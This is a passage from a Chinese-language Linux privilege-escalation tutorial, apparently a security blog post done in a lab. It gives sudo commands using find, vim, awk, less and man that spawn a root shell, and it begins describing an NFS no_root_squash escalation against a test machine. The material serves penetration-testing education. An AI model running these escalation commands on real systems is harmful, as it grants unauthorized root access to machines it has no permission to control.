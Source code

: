 撤销文件的写权限：chmod u-w /etc/sudoers；

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/20-300x24.png)

-   提权操作

当前已经获取到低权限用户sudo\_test，使用sudo -l命令查看本用户允许使用的sudo程序。

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/21-300x121.png)

1) find

执行以下命令：sudo find /etc/passwd -exec /bin/sh \\;，返回了root shell，提权成功！

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/22-300x42.png)

2) Vim

执行以下命令提权：sudo vim -c ‘!sh’

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/23-300x133.png)

3) awk

执行以下命令提权：sudo awk ‘BEGIN {system(“/bin/bash”)}’

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/24-300x30.png)

4) Less

执行以下命令：sudo less /etc/hosts，之后输入！和enter，切换到root用户，提权成功！

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/25-300x27.png)

5) Man

执行以下命令：sudo man man，之后输入！和enter，切换到root用户，提权成功！

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/26-300x29.png)

## ****5\. NFS提权****

[NFS](https://so.csdn.net/so/search?q=NFS&spm=1001.2101.3001.7020)（网络文件系统）是一种分布式文件系统协议，NFS允许系统通过网络与其他人共享目录和文件。在NFS文件共享中，用户甚至程序可以访问远程系统上的信息，就像它们驻留在本地计算机上一样。NFS中的Root Squashing（root\_sqaush）参数阻止对连接到NFS卷的远程root用户具有root访问权限。当该参数设置为no\_root\_squash时，登入 NFS 主机使用分享目录的使用者如果是 root 的话，那么对于这个分享的目录来说，他就具有 root 的权限，基于此原理便可实现提权。

-   权限配置

首先在靶机（192.168.88.134）上配置NFS服务端，配置流程参考下面链接：

[https://blog.csdn.net/weicao1990/article/details/90137680](https://blog.csdn.net/weicao1990/article/details/90137680)

配置成功之后将/home/ubuntu/tmp文件夹设置为可远程访问，且 Root Squashing参数设置为no\_root\_squash。

![](http://blog.nsfocus.net/wp-content/uploads/2022/08/27-300x88.png)
